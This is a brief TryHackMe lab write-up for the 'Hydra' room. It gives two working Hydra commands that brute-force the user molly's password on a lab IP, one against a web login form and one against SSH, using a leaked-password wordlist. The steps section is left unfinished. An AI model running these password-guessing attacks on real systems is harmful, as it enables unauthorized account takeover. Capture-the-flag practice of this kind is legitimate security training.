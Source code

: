 # Hydra | DarkStar7471

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

Add steps later

**Use Hydra to bruteforce molly's web password. What is flag 1?**

Web hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^\&password=^PASS^:F=incorrect" -V

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

SSH hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V
